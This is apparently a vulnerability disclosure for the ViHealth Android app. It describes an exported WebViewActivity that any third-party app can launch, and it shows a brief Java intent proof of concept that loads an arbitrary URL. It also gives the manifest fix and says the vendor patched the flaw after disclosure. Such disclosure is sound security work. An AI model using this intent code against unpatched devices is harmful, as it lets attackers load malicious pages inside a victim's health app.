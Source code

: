 

Vendor of Product: Viatom Health                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type: CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

![image](https://github.com/actuator/cve/assets/78701239/6d9c2530-0122-4ea6-871a-72fd6c1ad08b)



An attacker could craft a 3rd party app using the following code to load the URL of their choice to facilitate malicious actions:



********************************************************************************************************************************

Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);

********************************************************************************************************************************


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.


![image](https://github.com/actuator/cve/assets/78701239/00fe68ca-6030-4eac-a84b-188c0036b5d8)


![image](https://github.com/actuator/cve/assets/78701239/4c2b98e8-2407-4325-bc96-8de0dae71443)


Discoverer: Edward Warren
